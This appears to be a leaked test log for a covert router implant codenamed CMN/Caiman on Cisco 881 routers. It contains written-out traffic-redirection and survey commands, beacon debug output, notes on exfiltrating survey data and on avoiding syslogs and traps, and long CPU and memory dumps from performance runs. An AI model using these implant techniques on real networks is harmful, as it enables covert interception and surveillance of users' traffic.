redir_create|interface|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP|172.20.13.20|0|0|XXX.XXX.XXX.XX (CORE2[US])|0|0|600
redir_create|interface|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|172.20.13.20|255.255.255.255|0|0|TCP|XXX.XXX.XXX.XX (CORE2[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|600
redir_create|interface|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP|172.20.13.20|0|0|XXX.XXX.XXX.XX (CORE2[US])|0|0|600
redir_create|interface|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|172.20.13.21|255.255.255.255|0|0|TCP|XXX.XXX.XXX.XX (CORE2[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|600
redir_create|interface|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP|172.20.13.21|0|0|XXX.XXX.XXX.XX (CORE2[US])|0|0|600
redir_show Uploaded rule to CMNCaiman (Codename)? succesfully.
- From Seeds attempted to browse to 172.20.13.20 and was not redirected, could not reach coverweb on 80 or 443, timed out. Attemtped to browse to 172.20.13.21 over 80 and 443 and WAS redirected. Only the higher number rule for redir was effective.
- Returned to original redir rule, simply redirecting XXX.XXX.XXX.XX (CORE2[US]) from 172.20.13.20 to X.X.X.XX (LVLT-GOGL-8-8-8[US]). Uploaded rules to CMNCaiman (Codename)? successfully. - tested 80 and 443 redir - both are successful.
- Added back in rule for redirecting XXX.XXX.XXX.XX (CORE2[US]) from 172.20.13.21 to X.X.X.XX (LVLT-GOGL-8-8-8[US]).
[root@blot-spicerack cmds]# more redir_test.cmd
redir_create|interface|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|172.20.13.21|255.255.255.255|0|0|TCP|XXX.XXX.XXX.XX (CORE2[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|600
redir_create|interface|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP|172.20.13.21|0|0|XXX.XXX.XXX.XX (CORE2[US])|0|0|600
redir_create|interface|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|172.20.13.20|255.255.255.255|0|0|TCP|XXX.XXX.XXX.XX (CORE2[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|600
redir_create|interface|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP|172.20.13.20|0|0|XXX.XXX.XXX.XX (CORE2[US])|0|0|600
redir_show- Seeds traffic XX.XX.XX.XX (APPLE-WWNET[US]) on 443 and 80 are redirected, but to 172.20.13.21 are not - once again, the rule with the higher number works. It seems that pepper should not have accepted these rules because of the conflicting return redirection rules that seem to cause a problem.
- Changed the rule for the second redirect website to redirect somewhere else - X.X.X.XX (LVLT-GOGL-8-8-8[US]) - so that there is no conflicting return redirect rule:
- Setup wireshark on Seeds host and tcpdump on both 172.20.13.20 and X.X.X.XX (LVLT-GOGL-8-8-8[US])
- Successfully uploaded the following redirect rules to CMN:
redir_create|interface|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|172.20.13.21|255.255.255.255|0|0|TCP|XXX.XXX.XXX.XX (CORE2[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|600
redir_create|interface|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP|172.20.13.21|0|0|XXX.XXX.XXX.XX (CORE2[US])|0|0|600
redir_create|interface|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|172.20.13.20|255.255.255.255|0|0|TCP|XXX.XXX.XXX.XX (CORE2[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|600
redir_create|interface|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP|172.20.13.20|0|0|XXX.XXX.XXX.XX (CORE2[US])|0|0|600
redir_show Cleared private data, closed and re-opened firefox on seeds host. Web browsed to 172.20.13.20 and was redirected to X.X.X.XX (LVLT-GOGL-8-8-8[US])
- Verified no packets arrived on 172.20.13.20 web server in the tcpdump output
- Observed Seeds host traffic to X.X.X.XX (LVLT-GOGL-8-8-8[US]) wireshark output from Seeds host and tcpdump out from X.X.X.XX (LVLT-GOGL-8-8-8[US]) - saw the following tcp analysis flags on wireshark from Seeds
- TCP ACKed lost segment
- TCP Previous segment lost
- TCP Window Update
- TCP Window Full
- TCP ZeroWindow
- TCP Retransmisstion - just one
I observed all of the same flags in a wireshark from Seeds to X.X.X.XX (LVLT-GOGL-8-8-8[US]) without redir. Tested with 80 and 443 traffic. Seeds host was successfully redirected on 80 and 443 from 172.20.13.20 to X.X.X.XX (LVLT-GOGL-8-8-8[US]) with nothing punching through. Seeds host was also successfully redirected from 172.20.13.21 to X.X.X.XX (LVLT-GOGL-8-8-8[US]) on port 80 (443 not enabled on that server).
- Testing bounce redirection by redirecing traffic from source 192.168.21.1 (Fedora) and destination XXX.XX.XXX.XXX (CABLEVISION[US]) to source XXX.XX.XXX.XXX (CABLEVISION[US]) and destination X.X.X.XX (LVLT-GOGL-8-8-8[US]). Testing with web and 443 traffic.
- Created the following redir rule on CMN
redir_create|bounce|192.168.21.10|255.255.255.255|0|0|XXX.XX.XXX.XXX (CABLEVISION[US])|255.255.255.255|0|0|TCP|XXX.XX.XXX.XXX (CABLEVISION[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|600
redir_create|bounce|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XX.XXX.XXX (CABLEVISION[US])|255.255.255.255|0|0|TCP|XXX.XX.XXX.XXX (CABLEVISION[US])|0|0|192.168.21.10|0|0|600
redir_show - Ran wireshark on 192.168.21.10 as well as X.X.X.XX (LVLT-GOGL-8-8-8[US]). Tested 80 and 443 redirect and was successfully redirected from XXX.XX.XXX.XXX (CABLEVISION[US]). Traffic on X.X.X.XX (LVLT-GOGL-8-8-8[US]) tcpdump came from source address XXX.XX.XXX.XXX (CABLEVISION[US]) - no traffic arrived with a source address of 192.168.21.10. Wireshark on 192.168.21.10 looked typical for a web or 443 connection without redirect.
- Created the following redir rule on CMN
-
IXIA test - no CMN, 22 hour test
- Reloaded DUTDevice Under Test - and repeated IXIA test from test 27 except for a shorter time - 22 hours.
-
At start of test at 5:10PM, DUTDevice Under Test CPU and memory:
881-Bottom#show proc cpu
CPU utilization for five seconds: 3%/0%; one minute: 3%; five minutes: 2%
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
1 4 15 266 0.00% 0.00% 0.00% 0 Chunk Manager
2 0 95 0 0.00% 0.01% 0.00% 0 Load Meter
3 0 1 0 0.00% 0.00% 0.00% 0 LICENSE AGENT
4 0 1 0 0.00% 0.00% 0.00% 0 ROread only Notify Timers
5 480 74 6486 0.00% 0.07% 0.05% 0 Check heaps
6 0 1 0 0.00% 0.00% 0.00% 0 Pool Manager
7 0 1 0 0.00% 0.00% 0.00% 0 DiscardQ Backgro
8 0 2 0 0.00% 0.00% 0.00% 0 Timers
9 0 17 0 0.00% 0.00% 0.00% 0 WATCH_AFS
10 0 1 0 0.00% 0.00% 0.00% 0 License Client N
11 0 1 0 0.00% 0.00% 0.00% 0 Image License br881-Bottom#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 41302512 122728944 113912444 108980880
I/O E700000 26214400 9693928 16520472 16509344 16509308 Saved report to share
- Solarwinds of CPU during test
('image' missing)
- Solarwinds of memory during test
('image' missing)
- Test Admin activities while CMNCaiman (Codename)? present
- Uploaded survey module to CMNCaiman (Codename)? so that both modules are loaded up
- Loaded redir rules to exercise CMNCaiman (Codename)? during tests:
redir_create|interface|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|TCP|XXX.XXX.XXX.XX (CORE2[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|1800
redir_create|interface|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|XXX.XXX.XXX.XX (CORE2[US])|0|0|1800
redir_show -
Performed the following
- show flash, show log, show ver, show ip int br, show tech
- clear arp, mac-address-table, crypto isakmp, crypto session, eigrp service-family ipv4 neighbors, ip nat trans, cef table
- added a user, deleted a user, bounced an interface
- debug commands - found an issue relating to debug if-mgr trace all. Get debug output from this command even after it should have been disabled by undebug all. Debug output occurs every time running-config is accessed as in for show run, copy run tftp flash:. wr mem. Rebooted to remove CMNCaiman (Codename)? and found the issue still exists. Could be Cisco issue. investigating...
- IXIA Test - with CMNCaiman (Codename)? 22 hour test
- Reloaded DUTDevice Under Test to start with a clean device.
- Installed CMNCaiman (Codename)? and both modules, version 5.0.1
- At start of test at 4:10PM, DUTDevice Under Test CPU and memory:
881-Bottom#show proc cpu
CPU utilization for five seconds: 5%/0%; one minute: 6%; five minutes: 6%
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
1 8 15 533 0.00% 0.00% 0.00% 0 Chunk Manager
2 12 401 29 0.00% 0.01% 0.00% 0 Load Meter
3 0 1 0 0.00% 0.00% 0.00% 0 LICENSE AGENT
4 0 1 0 0.00% 0.00% 0.00% 0 ROread only Notify Timers881-Bottom#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 41797668 122233788 114186332 109246724
I/O E700000 26214400 9693928 16520472 16514336 1651430 Saved report to share
- Solarwinds CPU during test:
('image' missing)
- Solarwinds Memory During test:
('image' missing)
- IXIA Test - with CMNCaiman (Codename)? and Survey Scenario - 22 hour test
- Reloaded DUT
- Installed CMNCaiman (Codename)? and both modules
- Loaded up a survey scenario scheduled to run for 20 hours
survey_add_scenario|1|00:20:00:00|00:05:00|protocol|source_addr|source_port|dest_addr|dest_port
survey_add_filter|1|accept|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|UDP
survey_add_filter|1|accept|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP
survey_start_scenario|1|offset|00:00:00:10
survey_showScenario ID: 1
Start Time: 2015-07-29_19:52:02_GMT
Duration: 72000
Resolution: 300
Quantifier Fields: Protocol Source Address Source Port Destination Address Destination Port
Time Remaining: 71953
Filter(s):
Filter ID: 0
Filter Type: Accept
Address, Port(s), and Netmask:
XXX.XXX.XXX.XX (CORE2[US])(0) 255.255.255.255
Filter ID: 1
Filter Type: Accept
Address, Port(s), and Netmask:
XXX.XXX.XXX.XX (CORE2[US])(0) 255.255.255.255 -
At start of test at 4:10pm, DUTDevice Under Test CPU and memory:
881-Bottom#show proc cpu
CPU utilization for five seconds: 5%/0%; one minute: 6%; five minutes: 6%
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
1 8 15 533 0.00% 0.00% 0.00% 0 Chunk Manager881-Bottom#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 41911660 122119796 116887828 111871180
I/O E700000 26214400 9693928 16520472 16497184 16497148 - Solarwinds report of CPU during test:
('image' missing)
- Solarwinds report of DUTDevice Under Test memory during test:
('image' missing)
- Test Latency to Blot
- Reloaded DUT
- Attacked with IACInternational Access Code and installed CMNCaiman (Codename)? 5.0.1
- used tc to add 1000 ms latency to blot proxy server
- Beaconed successfully
- Uploaded survey module - successful
- Ran suvey show - successful
- Uploaded redir module successfully
- Ran redir show - successful
- deleted both modules - successful
- increased latency to 1500ms
- successfully beaconed and uploaded survey module
- successfully uploaded redir module
- Deleted both modules
- Increased latency to 2000 ms
- Successfull beaconed and uploaded both modules with 2000ms latency
- Increased latency to 2500 ms
- successfully beaconed and installed both modules
- IXIA test - no CMN, 72 hours
- Reloaded DUTDevice Under Test to start without CMN
- Ran the same IXIA test as the previous except changed time to 72 hours.
- DUT CPU and memory at start of test at 3:10
881-Bottom#show proc cpu
CPU utilization for five seconds: 3%/0%; one minute: 3%; five minutes: 3%
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
1 4 15 266 0.00% 0.00% 0.00% 0 Chunk Manager
2 4 141 28 0.00% 0.01% 0.00% 0 Load Meter
3 4 1 4000 0.00% 0.00% 0.00% 0 LICENSE AGENT
4 0 1 0 0.00% 0.00% 0.00% 0 ROread only Notify Timers
5 764 116 6586 0.00% 0.10% 0.08% 0 Check heaps
6 0 1 0 0.00% 0.00% 0.00% 0 Pool Manager
7 0 1 0 0.00% 0.00% 0.00% 0 DiscardQ Backgro
8 0 2 0 0.00% 0.00% 0.00% 0 Timers
9 0 14 0 0.00% 0.00% 0.00% 0 WATCH_AFS
10 0 1 0 0.00% 0.00% 0.00% 0 License Client N
11 0 1 0 0.00% 0.00% 0.00% 0 Image License br881-Bottom#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Address Bytes Prev Next Ref PrevF NextF Alloc PCPersonal Computer what
Processor 84A91420 164031456 41138868 122892588 113439576 108511304
I/O E700000 26214400 9693928 16520472 16510816 16510780 -
Solarwinds DUTDevice Under Test CPU during test:
('image' missing)
- Solarwinds DUTDevice Under Test memory during test:
('image' missing)
- IXIA Test - 22 hour with CMNCaiman (Codename)? and redir active
- reloaded DUTDevice Under Test to start with clean device
- IAC attacked and installed CMNCaiman (Codename)? 5.0.1
- Loaded both modules
- Configured the following redir to remain in effect for 20 hours
redir_create|interface|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|172.20.13.20|255.255.255.255|0|0|TCP|XXX.XXX.XXX.XX (CORE2[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|72000
redir_create|interface|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP|172.20.13.20|0|0|XXX.XXX.XXX.XX (CORE2[US])|0|0|72000
redir_show[root@blot-spicerack receive]# more 20150803161217_0000014474.rules
Rule ID: 12
Rule is enabled
Time Remaining for Rule: 71998
Protocol Match: TCP
Type: interface
Matching Source and Destination Address(es) and Port(s):
X.X.X.XX (LVLT-GOGL-8-8-8[US]):(All Ports) -> XXX.XXX.XXX.XX (CORE2[US]):(All Ports)
Rewrite Source and Destination Address and Port:
172.20.13.20:(Unchanged) -> XXX.XXX.XXX.XX (CORE2[US]):(Unchanged)Rule ID: 11
Rule is enabled
Time Remaining for Rule: 71997
Protocol Match: TCP
Type: interface
Matching Source and Destination Address(es) and Port(s):
XXX.XXX.XXX.XX (CORE2[US]):(All Ports) -> 172.20.13.20:(All Ports)
Rewrite Source and Destination Address and Port:
XXX.XXX.XXX.XX (CORE2[US]):(Unchanged) -> X.X.X.XX (LVLT-GOGL-8-8-8[US]):(Unchanged) - Added a wget to the Seeds host every 2s for www.coverweb.com, which will fire the redirect rule to X.X.X.XX (LVLT-GOGL-8-8-8[US]). Verified that web traffic from seeds host to www.coverweb.com is being redirected.
- DUT memory and CPU at start of test, kicked off at 12:30:
-
881-Bottom#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 42072824 121958632 117094884 112057976
I/O E700000 26214400 9549340 16665060 16501088 16514492881-Bottom#show proc cpu
CPU utilization for five seconds: 7%/0%; one minute: 6%; five minutes: 6%
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
1 4 18 222 0.00% 0.00% 0.00% 0 Chunk Manager
Solarwinds report of CPU during test:
- Solarwinds report of Memory during test:
('image' missing)
- IXIA test - Steady traffic at 5Mbps -Baseline, no CMN
- Used same NN as in all previous tests, however adjust appsim to use 5 Mbps of constant traffic instead of a range of 1-10 and only run for 4 hours. Also, changed ramp up/ramp down time from 30seconds to 5 minutes on each side.
- Reloaded DUTDevice Under Test to start with clean device
- Memory and CPU before test started:
881-Bottom#show proc cpu
CPU utilization for five seconds: 3%/0%; one minute: 3%; five minutes: 3%
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
1 4 15 266 0.00% 0.00% 0.00% 0 Chunk Manager
2 0 236 0 0.00% 0.01% 0.00% 0 Load Meter
3 0 1 0 0.00% 0.00% 0.00% 0 LICENSE AGENT
4 0 1 0 0.00% 0.00% 0.00% 0 ROread only Notify Timers
5 1332 200 6660 0.00% 0.11% 0.10% 0 Check heaps
6 0 1 0 0.00% 0.00% 0.00% 0 Pool Manager
7 0 1 0 0.00% 0.00% 0.00% 0 DiscardQ Backgro
8 0 2 0 0.00% 0.00% 0.00% 0 Timers
9 0 13 0 0.00% 0.00% 0.00% 0 WATCH_AFS
10 0 1 0 0.00% 0.00% 0.00% 0 License Client N
11 0 1 0 0.00% 0.00% 0.00% 0 Image License br881-Bottom#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Address Bytes Prev Next Ref PrevF NextF Alloc PCPersonal Computer what
Processor 84A91420 164031456 41146220 122885236 113845784 108916932
I/O E700000 26214400 9693928 16520472 16497600 16497564
Processor memoryAddress Bytes Prev Next Ref PrevF NextF Alloc PCPersonal Computer what
84A91420 0004473596 00000000 84ED574C 000 0 8768923C 82117940 *Init*
84ED574C 0000000404 84A91420 84ED5910 001 -------- -------- 820EDE80 *Init*
84ED5910 0000000116 84ED574C 84ED59B4 001 -------- -------- 820B2184 Managed Chunk Queue Elements
84ED59B4 0000131076 84ED5910 84EF59E8 001 -------- -------- 8034EE38 *Init* Test began at 5:03pm
- Solarwinds Memory during test:
('image' missing)
- Solarwinds CPU during test
('image' missing)
- IXIA test - Steady traffic at 5Mbps - CMNCaiman (Codename)? plus modules
- Reloaded DUT
- Attacked with IACInternational Access Code and installed CMNCaiman (Codename)? and both modules
- Used same test parameters as previous test
- show mem and cpu before test start 2pm:
881-Bottom#show proc cpu
CPU utilization for five seconds: 5%/0%; one minute: 6%; five minutes: 6%
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
1 4 15 266 0.00% 0.00% 0.00% 0 Chunk Manager
2 16 476 33 0.00% 0.02% 0.00% 0 Load Meter
3 4 1 4000 0.00% 0.00% 0.00% 0 LICENSE AGENT
4 0 1 0 0.00% 0.00% 0.00% 0 ROread only Notify Timers
5 4300 398 10804 0.00% 0.15% 0.17% 0 Check heaps
6 0 1 0 0.00% 0.00% 0.00% 0 Pool Manager
7 0 1 0 0.00% 0.00% 0.00% 0 DiscardQ Backgro
8 0 2 0 0.00% 0.00% 0.00% 0 Timers
9 0 46 0 0.00% 0.00% 0.00% 0 WATCH_AFS
10 0 1 0 0.00% 0.00% 0.00% 0 License Client N
11 0 1 0 0.00% 0.00% 0.00% 0 Image License br881-Bottom#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 41783304 122248152 115653476 110672392
I/O E700000 26214400 9693928 16520472 16513344 16513308 Graphs saved to share
- Reload Devices adjacent to DUTDevice Under Test while CMNCaiman (Codename)? installed
- CMN is currently installed non-persistenly with modules uploaded
- Reloaded Seeds host - no Traps produced, implant still beacons. When seeds came back up i restarted seeds traffic. implant still beaconing when triggered.
- Cannot reload other devices at this time without impacting IXIA test running on other 881.
- IXIA - 4 hour test, no cmn, 10Mbps of traffic
- Reloaded DUT
- Changed test parameters to use a steady 10Mbps of traffic
- DUT CPU and memory at start of test at 6:50:
881-Bottom#show proc cpu
CPU utilization for five seconds: 3%/0%; one minute: 3%; five minutes: 3%
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
1 0 15 0 0.00% 0.00% 0.00% 0 Chunk Manager
2 0 316 0 0.00% 0.01% 0.00% 0 Load Meter
3 0 1 0 0.00% 0.00% 0.00% 0 LICENSE AGENT
4 0 1 0 0.00% 0.00% 0.00% 0 ROread only Notify Timers
5 1704 262 6503 0.55% 0.15% 0.11% 0 Check heaps
6 0 1 0 0.00% 0.00% 0.00% 0 Pool Manager
7 0 1 0 0.00% 0.00% 0.00% 0 DiscardQ Backgro
8 0 2 0 0.00% 0.00% 0.00% 0 Timers
9 0 15 0 0.00% 0.00% 0.00% 0 WATCH_AFS
10 0 1 0 0.00% 0.00% 0.00% 0 License Client N
11 0 1 0 0.00% 0.00% 0.00% 0 Image License br881-Bottom#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 41273364 122758092 116317596 111302136
I/O E700000 26214400 9693928 16520472 16501824 16501788 - Test results saved to share
- Performance with only Seeds traffic
- show proc cpu hist for the time before attack, IACInternational Access Code attack and CMNCaiman (Codename)? upload, and then just CMNCaiman (Codename)? running:

- Solarwinds graph of CPU during the last two hours showing same events:

- show proc cpu hist for the time before attack, IACInternational Access Code attack and CMNCaiman (Codename)? upload, and then just CMNCaiman (Codename)? running:
- Characterizing Isue observed - CMNCaiman (Codename)? not picking up HTTPHypertext Transfer Protocol replies from active internet detection attempt
- Observed this issue following previous IXIA test after I installed CMN. CMN did not beacon. Ensured Seeds traffic was running. Observed in wireshark that HTTPHypertext Transfer Protocol SYN/ACK packets from CMNCaiman (Codename)? passive internet checks to www.google.com were making it back to seeds host.
- Ensured Seeds traffic is running
- Reloaded DUTDevice Under Test and installed a debug version of CMNCaiman (Codename)? - beaconed successfully
- Reloaded DUTDevice Under Test and installed a debug version of CMNCaiman (Codename)? - beaconed successfully
- Reloaded DUTDevice Under Test and kicked off a 20 minute IXIA test with the same settings as I had run previously, then after test was complete, waited ten minutes, then installed CMNCaiman (Codename)? - beaconed successfully
- Reloaded DUTDevice Under Test and installed a debug version of CMNCaiman (Codename)? - beaconed successfully
- Trying on 881-Top with regular version of CMNCaiman (Codename)? - successful
- Tried again to run an IXIA test on 881-Bottom and then implant. The initial beacon worked, but subsequent triggered beacons did not work. Saw the following in debug output:
@@@ 00+00:56:50 EE vector: ivec= 0x0B
@@@ 00+00:56:54 Triggering Beacon on Original LPs
@@@ 00+00:56:55 Starting triggered beacon session.
@@@ 00+00:56:55 dns_lookup: sending query for www.google.com
@@@ 00+00:56:55 Probe DNSDomain Name System request sent.
@@@ 00+00:56:55 dns_parse_response: answer is X.X.X.XX (LVLT-GOGL-8-8-8[US])
@@@ 00+00:56:55 Got probe DNSDomain Name System answer.
@@@ 00+00:56:55 EE vector: ivec= 0x0B
@@@ 00+00:56:56 Connecting to probe server...
@@@ 00+00:57:00 EE vector: ivec= 0x0B
@@@ 00+00:57:05 EE vector: ivec= 0x0B
@@@ 00+00:57:10 EE vector: ivec= 0x0B CMN is not picking up the HTTPHypertext Transfer Protocol reply. Worked with User #76523/CMN and it appears to be an issue with CMNCaiman (Codename)? learning interfaces correctly after the IXIA has been putting traffic through - one difference is that the IXIA pushes tunnel traffic whereas regular seeds traffic goes outside the tunnel. User #76523 has enough information to attempt to repro at the bakery. All debug output captured if needed.
- IXIA performance test - CMNCaiman (Codename)? with 10M - 4 hour test
- reloaded DUT
- attacked with IACInternational Access Code and installed CMNCaiman (Codename)? and both modules
- DUT mem and CPU at start of test at 4:50
881-Bottom#show proc cpu
CPU utilization for five seconds: 5%/0%; one minute: 6%; five minutes: 7%
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
1 4 15 266 0.00% 0.00% 0.00% 0 Chunk Manager
2 8 200 40 0.07% 0.02% 0.00% 0 Load Meter
3 0 1 0 0.00% 0.00% 0.00% 0 LICENSE AGENT
4 0 1 0 0.00% 0.00% 0.00% 0 ROread only Notify Timers
5 1716 166 10337 0.00% 0.19% 0.18% 0 Check heaps
6 0 1 0 0.00% 0.00% 0.00% 0 Pool Manager
7 0 1 0 0.00% 0.00% 0.00% 0 DiscardQ Backgro
8 0 2 0 0.00% 0.00% 0.00% 0 Timers
9 0 52 0 0.00% 0.00% 0.00% 0 WATCH_AFS
10 0 1 0 0.00% 0.00% 0.00% 0 License Client N
11 0 1 0 0.00% 0.00% 0.00% 0 Image License br881-Bottom#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 41719784 122311672 113260968 108337984
I/O E700000 26214400 9693928 16520472 16511040 16511004 Test complete and results are saved to share.
- IXIA performance test - Stack Scrambler
- Reloaded DUTDevice Under Test to start with clean device
- Installed CMNCaiman (Codename)? and modules
- Set up IXIA with a Stack Scrambler test component and same NN as used in previous User #?. Configured 5Mbps of constant traffic, a max of 1 corruption per packet, and set all corruption values to 100.
- Test ran for 15 hours overnight. Saved report (Scrambler_3) to the share. DUT did not reboot or crash. Device operating normally, passing traffic. Was able to successfully beacon CMNCaiman (Codename)? ten times this morning when I came in. No syslogs or traps generated on the DUT
during the test. - Reloaded DUTDevice Under Test to start with clean device
- Installed CMNCaiman (Codename)? 5.0.1 and modules
- Uploaded the following survey scenario:
survey_add_scenario|1|00:04:00:00|00:05:00|protocol|source_addr|source_port|dest_addr|dest_port
survey_add_filter|1|accept|XXX.XXX.XXX.X (CORE2[US])|255.255.255.0|0|0|UDP
survey_add_filter|1|accept|XXX.XXX.XXX.X (CORE2[US])|255.255.255.0|0|0|TCP
survey_start_scenario|1|offset|00:00:00:10
survey_show Kicked off 4 hour stack scrambler test with same paramters as previous test at 10:28.
- Test completed - DUTDevice Under Test did not crash/reboot or produce any syslogs or SNMPSimple Network Management Protocol Traps. Collected results from solarwinds and saved to share.
- Change DHCPDynamic Host Configuration Protocol address while CMNCaiman (Codename)? running
- Installed CMNCaiman (Codename)? and both modules
- Changed the DHCPDynamic Host Configuration Protocol assignment on the TR-Core router and then bounced the clear the DHCPDynamic Host Configuration Protocol binding to renew the IP address
- IP address didn't renew when i cleared the binding on TR-Core - the 881-Bottom kept the same IP address so I bounced the f4 interface
- Interface came back up and learned the new IP address XXX.XX.XXX.X (WIFI-ID[ID]). CMN beaconed successfully and showed new IP in the .rcvd file on spicerack.
- Testing exfil of survey data after Scrambler test
- Attacked DUTDevice Under Test with IAC, then installed CMNCaiman (Codename)? and both modules. This build of CMNCaiman (Codename)? is now using the operational LPListening Post domain name.
- Uploaded the following 4 hour scenario:
survey_add_scenario|1|00:04:00:00|00:05:00|protocol|source_addr|source_port|dest_addr|dest_port
survey_add_filter|1|accept|XXX.XXX.XXX.X (CORE2[US])|255.255.255.0|0|0|UDP
survey_add_filter|1|accept|XXX.XXX.XXX.X (CORE2[US])|255.255.255.0|0|0|TCP
survey_start_scenario|1|offset|00:00:00:10
survey_show Kicked off 2 hour Ixia scrambler test
- Test completed, scenario still running. Sent a command to end survey scenario
- Data exfil'd and unscrambled successfully
- Received 5.0.2 today on 8/27/15 from CMN. Installed on Top (sticky norb) and Bottom (norb) 881s. Successfully beaconed with 2048 bit cert.
- Verify Beacon failure retries
- Observed traffic on 4.4.4.4 dns server and on blot proxy. Disabled interface on spicerack so that beacons will fail.
- Reloaded 881-Top that has CNM sticky installed - beacon retries value is set to 4. Expected result is 5 tcp syn packets to blot proxy and 5 DNSDomain Name System lookups to 4.4.4.4 for active internet detection.
- Actual behavior observed - 6 syn packets sent and 6 active internet lookups.
- Made a new build of CMNCaiman (Codename)? with the beacon retries set to 3. In addition, this build uses the real Internet PROBE LIST. All the sites for the probe list have been added to 4.4.4.4
- Observed a failure of active internet step of lookup to probe dest - appears to have produced an admin prohibited message. It scrolled by quickly, but need to re-test to verify CMNCaiman (Codename)? is still picking up the DNSDomain Name System packet even if the result is that the lookup failed.
- Verfied the DNSDomain Name System reply going to impersonated host. User #76523/CMN determined this was due to DNSDomain Name System listener timeout on CMNCaiman (Codename)? too short to catch replies where recursive DNSDomain Name System server waited for an answer from authoritative server.
- CMN 5.0.3 test - Verify fix to bug identified in test 47
- Received 5.0.3 from CMNCaiman (Codename)? on 9/3/15 and verified that CMNCaiman (Codename)? is now picking up DNSDomain Name System replies in the case where the DNSDomain Name System server waited for timeout before sending reply.
- Reloaded to start with a clean device
- Commented out about half of the PROBE DEST domains from X.X.X.X (LVLT-GOGL-8-8-8[US]) DNSDomain Name System server and reloaded 4.4.4.4 dns server to clear cache
- Installed CMNCaiman (Codename)? 5.0.3
- Ran tcpdump on 4.4.4.4 server and wireshark on impersonated Seeds host to verify DNSDomain Name System traffic
- Triggered CMNCaiman (Codename)? multiple tmes and observed both successful and unsuccessful active internet detection steps on the tcpdump - did not see any ICMPInternet Control Message Protocol uneachable admin prohibited messages on 4.4.4.4 server and did not log any packets in the wireshark on the impersonated seeds host.
- Received 5.0.3 from CMNCaiman (Codename)? on 9/3/15 and verified that CMNCaiman (Codename)? is now picking up DNSDomain Name System replies in the case where the DNSDomain Name System server waited for timeout before sending reply.
